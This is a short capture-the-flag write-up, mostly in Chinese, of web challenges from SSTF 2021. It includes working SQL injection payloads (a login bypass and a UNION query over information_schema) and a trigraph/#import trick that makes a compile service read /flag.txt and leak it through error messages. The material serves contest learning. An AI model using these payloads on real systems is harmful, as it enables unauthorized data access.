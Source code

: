 # Flag Submission

`SCTF{It_15_tim3_t0_hack!!}`



# SQLi 101

```
?id=admin'%23&pw=1
```



# SQLi 102

```
?searchkey=-1'union select 1,group_concat(column_name),3,4,5,6,7,8 from information_schema.columns  where table_name = 'findme'  %23
```

​	

# SW Expert Academy

一道离谱的题目，输入C程序然后会运行：

```shell
 $ gcc -o binary code.c -std=c99
```



f12告诉了flag在`/flag.txt`里面。然后ban了很多东西，没法命令执行和文件读取。GG。



这里利用了文件导入，或者说头文件叭。一般只想到`include`，但是`include`和`#`都被ban了，分别绕过。

绕过`include`用`import`：

> \#import指令用于从一个类型库中结合信息。该类型库的内容被转换为C++类,主要用于描述COM界面。
>
> 语法
>
> \#import "文件名" [属性]
>
> \#import <文件名> [属性]

gcc既能c，也能c++，所以import可以用。

`#`的绕过就用了一个非常离谱的东西，参考链接：

https://en.wikipedia.org/wiki/Digraphs_and_trigraphs



用`??=`或者`%:`来替换成`#`。

所以这样都可以：

```c++
??=import "/flag.txt"
%:import "/flag.txt"
```

利用报错的信息来得到flag：

![image-20210817235357923](Hacker's-Playground(SSTF)-2021-Web.assets/image-20210817235357923.png)



# Poxe Center

没做出来。是个postgre的SQL注入，最后没找到flag在哪。

暂时记到这里，这题等WP再复现了，看看flag到底在哪。
